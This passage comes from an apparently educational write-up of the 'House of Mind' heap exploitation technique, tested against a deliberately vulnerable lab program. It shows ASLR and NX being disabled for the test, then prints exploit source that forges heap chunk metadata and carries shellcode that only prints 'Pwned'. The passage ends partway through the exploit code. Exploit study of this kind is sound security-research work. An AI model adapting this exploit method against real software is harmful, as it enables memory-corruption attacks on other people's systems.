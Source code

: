 Pay attention to that “int ret = 0;” which was required in order to assure that I have at least a 0x00000000 in the stack and use it for av->mutex.  
Please note that I compiled this code with the usual following options:    

`gcc hom.c -m32 -mpreferred-stack-boundary=2 -mno-accumulate-outgoing-args -o hom`  

and that I disabled ASLR with the command:  

`echo 0 > /proc/sys/kernel/randomize_va_space`  

The “problem” I had was to find an equivalent of the -zexecstack option for the heap, as the [NX](https://en.wikipedia.org/wiki/Nx_bit) bit protection is valid for the heap as well: it marks the areas of memory dedicated to the heap as non-executable. So, it came out that there’s an easy way to do that at kernel command-line level: adding noexec=off to the kernel options (please set this option only for testing purposes).   
So, next thing is to run the application and write down the output:    
```
 $ ./hom
ptr found at 0x804b008
good heap alignment found on malloc() 720 (0x8100280)
```
Then I needed the address where EBP had been pushed when fvuln() was called: attaching GDB to the running process did the trick (FYI it’s 0xFFFFCFA0 on my system). This is all the information and all the OS settings I needed in order to test this type of exploit.  
Writing the exploit has been pretty easy, given blackngel’s instructions:  
``` c
 #include <stdio.h>

#define EBPMINUS4  0xFFFFCF9C
#define N          720

// Just prints the Pwned string
unsigned char shellcode[] =
"\xeb\x17\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x06"
"\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x50\x77\x6e\x65"
"\x64\x21\x0a";

int main(void)
{
  int i, j;

  // Some filler for the whole ptr chunk + ptr2's prev_size
  for (i = 0; i < 1028; i++)
    putchar(0x41);

  for (i = 0; i < N - 3; i++)
  {
    fwrite("\x09\x04\x00\x00", 4, 1, stdout);
    for (j = 0; j < 1028; j++)
      putchar(0x41);
  }

  fwrite("\x09\x04\x00\x00", 4, 1, stdout);
  for (i = 0; i < (1024 / 4); i++)
  {
    putchar((EBPMINUS4 & 0x000000FF) >> 0);
    putchar((EBPMINUS4 & 0x0000FF00) >> 8);
    putchar((EBPMINUS4 & 0x00FF0000) >> 16);
    putchar((EBPMINUS4 & 0xFF000000) >> 24);
  }

  // ptr2's prev_size
  fwrite("\xeb\x16\x90\x90", 4, 1, stdout);

  // ptr2's size
  fwrite("\x15\x00\x00\x00", 4, 1, stdout);
```